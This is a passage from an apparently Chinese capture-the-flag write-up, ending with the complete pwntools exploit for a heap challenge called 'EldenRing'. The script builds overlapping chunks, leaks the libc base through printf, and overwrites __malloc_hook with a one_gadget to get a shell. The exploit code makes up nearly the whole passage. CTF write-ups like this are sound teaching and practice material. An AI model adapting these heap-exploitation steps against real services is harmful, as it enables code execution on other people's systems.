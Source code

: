 最后任意分配一个卢恩 chunk 触发漏洞，取得 shell😘

## 完整EXP

```
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
p=process('./EldenRing')
elf=ELF("./EldenRing")
libc=elf.libc
def debug():
    gdb.attach(p)
    pause()
def cmd(cho):
    p.recvuntil(b'choice')
    p.sendline(str(cho))
def Two_finger(size,cnt):
    cmd(2)
    p.sendlineafter(b's do you want to create for restoration?',str(size))
    p.sendlineafter(b'understand...',cnt)

def Three_finger(idx):
    cmd(3)
    p.sendlineafter(b'Which Rune do you want to destroy?',str(idx))
def Age_of_the_Stars():
    cmd(4)
   
def Dung_Eater():
    cmd(18)    
#chunk 0x31---> rune size 55
p.sendafter(b'ber who you are?',b"q8MkK6e0\x00nosekiro")
Two_finger(55,b64e(b'sekiro'))#0
Two_finger(55,b64e(b'sekiro'))#1
Two_finger(55,b64e(b'sekiro'))#2
Two_finger(65,b64e(b'sekiro'))#2

Three_finger(0)
Two_finger(55,b64e(p64(0)*5+p8(0x61)))#0

Three_finger(1)
Two_finger(109,b64e(p64(0)*5+p8(0x71)))#1

Three_finger(2)
Three_finger(1)

#----------------------leak libcaddr
Age_of_the_Stars()
p.recvuntil(b'0x')
libc_base=int(p.recv(12),16)-libc.symbols['printf']
hijackaddr=libc_base+libc.symbols['__malloc_hook']-0x23
print(hex(libc_base))

#----------------------Attack __malloc_hook 
Two_finger(97,b64e(p64(0)*5+p64(0x71)+p64(hijackaddr)))#1 To modifyd

Two_finger(123,b64e(b'sekiro'))#2
Two_finger(123,b64e(b'\x00'*(0x13-8)+p64(libc_base+0xf1247)+p64(libc_base+libc.symbols['realloc']+6)))#attack chunk
#debug()

#----------------------Trigger
Two_finger(18,b64e(b"End?Never"))

p.interactive()
```